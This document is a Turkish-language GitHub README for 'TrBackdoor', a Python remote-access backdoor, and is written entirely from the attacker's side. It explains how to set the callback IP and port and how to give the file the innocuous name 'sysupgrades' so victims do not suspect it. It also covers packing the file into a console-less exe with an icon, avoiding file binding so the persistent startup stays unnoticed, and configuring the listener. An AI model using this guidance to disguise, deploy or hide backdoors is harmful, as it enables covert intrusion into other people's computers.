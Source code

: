 # TrBackdoor
## Komutlar
![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/Command.png)
## Backdoor Ayarları
Not: sysupgrades ismini isterseniz değiştirebilirsiniz. Lakin backdoor'u hedefte saklamak istediğiniz zaman değiştirmiş olacağınız isim kullanıcıyı şüphelendirmemeli.<br/>
Öncelikle "sysupgrades.py" dosyamızı herhangi bir editör ile açınız ('SublimeText3').<br/>Daha sonra sınıfın dışında yer alan"ConfigSocket = MySocket("<İP>"<PORT>) kısmına backdoor için bir ip adresi ve port numarası giriniz. Yani<br/>
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/BackdoorConfig.png)
## Exe'ye Çevirme
"sysupgrades.py" backdoor'umuzu hedefimize göndermeden önce "pyinstaller" kullanarak exe'ye çevirelim.<br/> Burada size önerdiğim exe'ye çevirme işleminde mutlaka bir icon ekleyiniz ve noconsole komutunu kullanınız. Fakat dosyayı bir başka dosya ile (pdf) birleştirmeyiniz. Çünkü bağlantı sağladıktan sonra "migrate" komutunu kullandığınız sırada backdoor saklanacaktır. Kullanıcı bilgisayarını her başlattığında başlayacaktır. İşte bu başlatma sırasında her defasında backdoor ile birlikte pdf açılmasın ki kullanıcı şüphelenmesin diye exe'ye çevirirken bir dosya ile birleştirilmesini önermiyorum.<br/>
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ExeConvertor.png)<br/>
## Listener Ayarları
"Listener.py" dosyamızı yine bir editör ile açalım. Ardından yine alt tarafta yer alan<br/> "my_socket_listener = SocketListener("<İP>"<PORT>)" kısmını kendi local ip adresimizi girelim. Yani<br/>
<br/>![ConfigListener](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ListenerSettings.png)<br/>Böylece artık gelen bağlantıları dinlemeye hazırsınız.<br/>[!<br/>[![SC2 Video](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/TrBackdoor.gif)](https://www.youtube.com/watch?v=NVCAhal6wl8&feature=youtu.be)

